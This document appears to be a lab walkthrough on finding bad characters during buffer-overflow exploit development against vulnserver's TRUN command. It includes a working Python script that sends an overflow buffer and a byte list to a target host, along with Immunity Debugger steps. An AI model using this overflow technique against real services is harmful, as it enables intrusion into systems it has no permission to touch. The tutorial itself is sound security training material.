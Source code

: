 Finding bad characters is almost in relation to generating shellcode, when running shellcode we need to know what characters are good and bad for the shellcode.

We can determine this by taking a couple of hex from the GitHub link below and finding which ones have been filtered out by our program in immunity debugger

- Navigate to https://github.com/cytopia/badchars
- Open our last python script used in [[Overwriting the EIP]] and paste bad chars from the GitHub link into it , also make a little modification as we can see down below

![](https://i.imgur.com/4OKCs9D.png)

```python
#!/usr/bin/python
 
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "B" * 4 + badchars

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

Run the script and see if any hex character here is missing e.g After running the script and going back to our immunity debugger do we see any characters from `x01` to `xff` missing??

- After running the script navigate to the immunity debugger, then go to the `Registers` tab and right click on the `ESP`

![](https://i.imgur.com/W4yQJni.png)

- Now click on `Follow in Dump` and navigate to the `Hex Dump` tab, after this start to look for any missing characters, in vulnserver we won't find any missing characters cos' it was configured that way.

![](https://i.imgur.com/nZUASEJ.png)

- But here is a picture of what missing/bad characters looks like, over here we are missing 04, 05, 28, 29, 44, 45, AG. BE, BF, CC and CD

![](https://i.imgur.com/4BqUlIy.png)

- However consecutive characters that follow each other are not bad e.g 04 and 05, in which 04 is the bad character here

